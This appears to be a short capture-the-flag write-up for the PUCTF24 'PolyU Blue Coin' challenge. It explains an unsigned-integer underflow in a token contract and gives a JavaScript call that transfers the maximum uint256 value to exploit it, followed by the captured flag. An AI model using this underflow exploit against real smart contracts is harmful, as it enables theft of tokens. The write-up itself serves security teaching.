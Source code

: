 ## PolyU Blue Coin 理大藍幣

contact use unsigned int to do calculation and checking<br>
=> overflow or underflow<br>
=> n - uintMax = n + 1<br>
=> n + uintMax = n - 1<br>

```js
const botAddress = "0x0eDfBf30ab706833Eb7E5AB0b806Af117Df48359"
const uintMax = "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
await contract.transfer(botAddress, uintMax)
```

PUCTF24{o8v3rfl0w_1s_4w3s0m3_qQH94Vu6KHXJqUGpQkWGrBvxJWzAdUwU}
